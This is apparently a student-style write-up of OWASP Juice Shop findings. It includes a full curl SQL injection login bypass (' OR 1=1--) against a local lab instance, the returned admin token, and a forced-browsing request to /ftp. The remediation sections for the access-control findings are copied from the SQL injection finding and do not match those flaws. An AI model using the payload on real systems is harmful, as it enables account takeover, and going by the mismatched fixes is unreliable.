




# OWASP-top-10-juiceshop

## Finding One = Sql Injection

  ```bash
curl --path-as-is -i -s -k -X $'POST' \
    -H $'Host: localhost:3000' -H $'Content-Length: 42' -H $'sec-ch-ua-platform: \"Linux\"' -H $'Accept-Language: en-US,en;q=0.9' -H $'Accept: application/json, text/plain, */*' -H $'sec-ch-ua: \"Not-A.Brand\";v=\"24\", \"Chromium\";v=\"146\"' -H $'Content-Type: application/json' -H $'sec-ch-ua-mobile: ?0' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/146.0.0.0 Safari/537.36' -H $'Origin: http://localhost:3000' -H $'Sec-Fetch-Site: same-origin' -H $'Sec-Fetch-Mode: cors' -H $'Sec-Fetch-Dest: empty' -H $'Referer: http://localhost:3000/' -H $'Accept-Encoding: gzip, deflate, br' -H $'Connection: keep-alive' \
    -b $'language=en; welcomebanner_status=dismiss; cookieconsent_status=dismiss' \
    --data-binary $'{\"email\":\"`\' OR 1=1--`\",\"password\":\"dddd\"}' \
    $'http://localhost:3000/rest/user/login'

    ```
## response
    ```bash
    HTTP/1.1 200 OK
Access-Control-Allow-Origin: *
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Feature-Policy: payment 'self'
X-Recruiting: /#/jobs
Content-Type: application/json; charset=utf-8
Content-Length: 799
ETag: W/"31f-ZvhIiuCKXx88DAaiITD/vsuBzoc"
Vary: Accept-Encoding
Date: Wed, 17 Jun 2026 06:49:06 GMT
Connection: keep-alive
Keep-Alive: timeout=5

{"authentication":{"token":"eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJzdGF0dXMiOiJzdWNjZXNzIiwiZGF0YSI6eyJpZCI6MSwidXNlcm5hbWUiOiIiLCJlbWFpbCI6ImFkbWluQGp1aWNlLXNoLm9wIiwicGFzc3dvcmQiOiIwMTkyMDIzYTdiYmQ3MzI1MDUxNmYwNjlkZjE4YjUwMCIsInJvbGUiOiJhZG1pbiIsImRlbHV4ZVRva2VuIjoiIiwibGFzdExvZ2luSXAiOiIiLCJwcm9maWxlSW1hZ2UiOiJhc3NldHMvcHVibGljL2ltYWdlcy91cGxvYWRzL2RlZmF1bHRBZG1pbi5wbmciLCJ0b3RwU2VjcmV0IjoiIiwiaXNBY3RpdmUiOnRydWUsImNyZWF0ZWRBdCI6IjIwMjYtMDYtMTcgMDY6MTU6MjkuMzA5ICswMDowMCIsInVwZGF0ZWRBdCI6IjIwMjYtMDYtMTcgMDY6MTU6MjkuMzA5ICswMDowMCIsImRlbGV0ZWRBdCI6bnVsbH0sImlhdCI6MTc4MTY3ODk0N30.Q-vW-jU_suAQpdmVdkNoYHdz_Rh_BjTR8LUUsZs4P_kgzo_u6cSJYk3wRPtcbUgOF6uNMY9BoIQz8JwlIs05--FaLaclATb9FhXkfMs6J1y4icMwVfEb05uskkSi86ZJx1r2NoZS4I8ohbiWAp9rhcmWpozGBdJo3IUmDF36ko8","bid":1,"umail":"admin@juice-sh.op"}}

```
### Screenshot after login showing busket in admin page


### Root Cause: 
SQL injection is a code injection attack that takes advantage of security vulnerabilities in an application's software. SQL injection typically occurs when an application uses user-supplied content in a database query without properly sanitizing it, or when an application uses an insecure API. In this case, the application is using user-supplied content in a database query without properly sanitizing it.
### Solution:
Parametrized queries: Use parametrized queries (also known as prepared statements) instead of string concatenation to build SQL queries. This ensures that user input is treated as data rather than executable code.
Input validation: Implement strict input validation to ensure that user input conforms to expected formats. This can help prevent the injection of malicious code.
Principle of least privilege: Ensure that the application's database user has only the necessary privileges to perform its intended functions. This can help limit the damage that can be caused by a successful SQL injection attack.  

## Finding Two: A01 Broken Access Control (Basket IDOR)
### Screenshot of user accessing his basket

### Screenshot of other user accessing admin basket

### Root cause:
Broken access control is a security vulnerability that occurs when an application does not properly enforce access control policies, allowing unauthorized users to access sensitive information or perform unauthorized actions. In this case, the application is using user-supplied content in a database query without properly sanitizing it, or when an application uses an insecure API.
### Solution:
Parametrized queries: Use parametrized queries (also known as prepared statements) instead of string concatenation to build SQL queries. This ensures that user input is treated as data rather than executable code.
Input validation: Implement strict input validation to ensure that user input conforms to expected formats. This can help prevent the injection of malicious code.
Principle of least privilege: Ensure that the application's database user has only the necessary privileges to perform its intended functions. This can help limit the damage that can be caused by a successful SQL injection attack.  

## Finding Three: A01 forced browsing to `/ftp`
```bash
curl -k https://localhost:3000/ftp
```
### Screenshot of FTP directory

### Screenshot of accessing the sensitive file

### Root cause: 
Broken access control is a security vulnerability that occurs when an application does not properly enforce access control policies, allowing unauthorized users to access sensitive information or perform unauthorized actions. In this case, the application is using user-supplied content in a database query without properly sanitizing it, or when an application uses an insecure API.
### Solution:
Parametrized queries: Use parametrized queries (also known as prepared statements) instead of string concatenation to build SQL queries. This ensures that user input is treated as data rather than executable code.
Input validation: Implement strict input validation to ensure that user input conforms to expected formats. This can help prevent the injection of malicious code.
Principle of least privilege: Ensure that the application's database user has only the necessary privileges to perform its intended functions. This can help limit the damage that can be caused by a successful SQL injection attack.  